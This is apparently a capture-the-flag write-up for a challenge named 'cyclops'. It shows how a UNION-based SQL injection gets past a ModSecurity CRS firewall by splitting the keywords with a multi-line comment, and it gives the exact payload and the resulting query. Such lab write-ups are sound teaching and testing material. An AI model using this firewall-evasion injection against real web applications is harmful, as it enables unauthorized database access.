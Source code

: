 ```yaml
---
custom_edit_url: null
sidebar_position: 36
tags: [SQLi, Multi-line comment, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a0890124-fcbf-4ebc-a6fd-dc8011043f59)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In this challenge as well, the Mod Security CRS is being used.
For this challenge, we have to use the `UNON SELECT` statement.

Let's try that by providing the following URI parameter:

```
?id=UNION SELECT
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='' UNION SELECT '' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/79303dfd-43e3-4524-af78-e1019ef5e2a2)

As we can see, the input gets blocked.
In order to get around this we have to use multi-line comments.

&nbsp;

## Multi-line comments

In SQL, multi-line comments are effective while commenting out large groups of text.

```sql
SELECT * FROM table
/*
SELECT * FROM table
SELECT * FROM table
/*
```

We can utilize this to introduce space between the `UNION` and `SELECT` words as such:

```sql
UNION
/*
*/
SELECT
```

In order to get around the MOD Security filter, we can use the previously used bypass and modify it to our needs. We need to select the `first` and `second` columns in order to solve this challenge.

If we provide the following URI parameter:

```
?id=-1'<@=1 UNION/**/SELECT 'first','second' -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='-1'<@=1 UNION
/*
*/
SELECT 'first','second' -- -' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/ff3d51a5-66d4-408b-a2b1-923d945dc379)
